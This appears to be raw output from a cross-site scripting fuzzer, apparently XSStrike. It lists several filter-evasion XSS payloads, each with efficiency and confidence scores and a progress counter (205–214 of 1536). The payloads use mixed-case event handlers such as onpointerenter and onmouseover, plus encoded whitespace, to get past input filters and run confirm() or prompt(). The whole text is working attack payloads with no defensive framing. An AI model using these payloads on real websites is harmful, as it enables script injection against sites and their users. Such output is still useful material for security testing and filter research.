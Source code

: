------------------------------------------------------------
 Payload: <a%0aOnpOiNTeREnter%0d=%0dconfirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 205/1536
 
 Progress: 206/1536
 
------------------------------------------------------------
 Payload: <a%0aonpoInTERenteR%09=%09(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 207/1536
 
------------------------------------------------------------
 Payload: <hTml/+/onPoIntERENtEr+=+confirm()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 208/1536
 
------------------------------------------------------------
 Payload: <D3v%0aoNPoiNterEnTER%09=%09(confirm)()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 209/1536
 
------------------------------------------------------------
 Payload: <a%0doNMOUSeover%0d=%0d(confirm)()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 210/1536
 
------------------------------------------------------------
 Payload: <A%09oNPoINteReNteR%09=%09confirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 211/1536
 
------------------------------------------------------------
 Payload: <HtmL%0doNmOusEovEr%09=%09(prompt)``%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 212/1536
 
------------------------------------------------------------
 Payload: <DeTAiLS%0donPoINTerEnteR%0a=%0a(confirm)()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 213/1536
 
------------------------------------------------------------
 Payload: <HtMl%09ONMouSEOVer+=+a=prompt,a()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 214/1536
 